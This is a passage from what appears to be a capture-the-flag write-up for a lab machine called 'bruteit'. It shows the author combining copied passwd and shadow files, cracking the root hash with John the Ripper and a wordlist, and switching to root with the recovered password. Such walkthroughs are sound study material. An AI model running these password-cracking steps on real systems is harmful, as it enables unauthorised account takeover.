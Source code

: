 </code></pre><p>Saving the files into two different text files and then running the following commands allows me to crack the weak password of the root user</p>
<pre><code>unshadow passwd.txt shadow.txt &gt; unshadowed.txt

john --wordlist=rockyou.txt unshadowed.txt               
Using default input <span class="hljs-symbol">encoding:</span> UTF-<span class="hljs-number">8</span>
Loaded <span class="hljs-number">1</span> password hash (sha512crypt, crypt(<span class="hljs-number">3</span>) <span class="hljs-variable">$6</span><span class="hljs-variable">$ </span>[SHA512 <span class="hljs-number">128</span>/<span class="hljs-number">128</span> SSE2 <span class="hljs-number">2</span>x])
Cost <span class="hljs-number">1</span> (iteration count) is <span class="hljs-number">5000</span> <span class="hljs-keyword">for</span> all loaded hashes
Will run <span class="hljs-number">2</span> OpenMP threads
Press <span class="hljs-string">'q'</span> <span class="hljs-keyword">or</span> Ctrl-C to abort, almost any other key <span class="hljs-keyword">for</span> status

football         (root)     

<span class="hljs-number">1</span>g <span class="hljs-number">0</span><span class="hljs-symbol">:</span><span class="hljs-number">00</span><span class="hljs-symbol">:</span><span class="hljs-number">00</span><span class="hljs-symbol">:</span><span class="hljs-number">01</span> DONE (<span class="hljs-number">2024</span>-<span class="hljs-number">01</span>-<span class="hljs-number">28</span> <span class="hljs-number">19</span><span class="hljs-symbol">:</span><span class="hljs-number">43</span>) <span class="hljs-number">0</span>.<span class="hljs-number">9345</span>g/s <span class="hljs-number">119.6</span>p/s <span class="hljs-number">119.6</span>c/s <span class="hljs-number">119.6</span>C/s <span class="hljs-number">123456</span>..diamond
Use the <span class="hljs-string">"--show"</span> option to display all of the cracked passwords reliably
Session completed. 


john<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:~</span><span class="hljs-variable">$ </span>su root
<span class="hljs-symbol">Password:</span> 
root<span class="hljs-variable">@bruteit</span><span class="hljs-symbol">:/home/john</span><span class="hljs-comment"># whoami</span>
root
</code></pre>
